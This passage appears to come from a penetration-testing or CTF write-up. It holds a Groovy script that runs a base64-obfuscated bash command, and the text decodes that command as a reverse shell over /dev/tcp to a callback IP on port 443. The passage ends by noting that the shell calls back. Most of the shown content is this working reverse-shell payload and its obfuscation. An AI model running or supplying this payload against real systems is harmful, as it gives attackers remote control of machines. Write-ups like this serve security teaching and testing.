 ```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMS80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

<br/>

Note the original of the base64 encoded command:

```
bash -c 'bash -i >& /dev/tcp/192.168.100.11/443 0>&1'
```

![picture 38](images/9f19d0c598d2454b80d8510af49e927bc13a84187a62d729f7f40b37747fda30.png)  


<br/>

A reverse shell calls back:
